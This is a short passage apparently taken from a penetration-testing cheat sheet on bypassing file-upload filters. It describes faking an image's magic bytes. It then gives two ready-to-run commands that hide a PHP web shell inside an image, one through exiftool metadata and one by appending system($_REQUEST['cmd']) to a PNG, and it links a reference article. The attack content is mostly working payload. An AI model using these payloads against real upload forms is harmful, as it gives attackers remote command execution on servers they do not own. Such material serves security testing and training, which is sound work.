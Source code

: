 ## Bypass magic number check by adding at the beginning of the file the bytes of a real image (confuse the file command). Or introduce the shell inside the metadata:
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
## or you could also introduce the payload directly in an image:
echo '<?php system($_REQUEST['cmd']); ?>' >> img.png
- https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html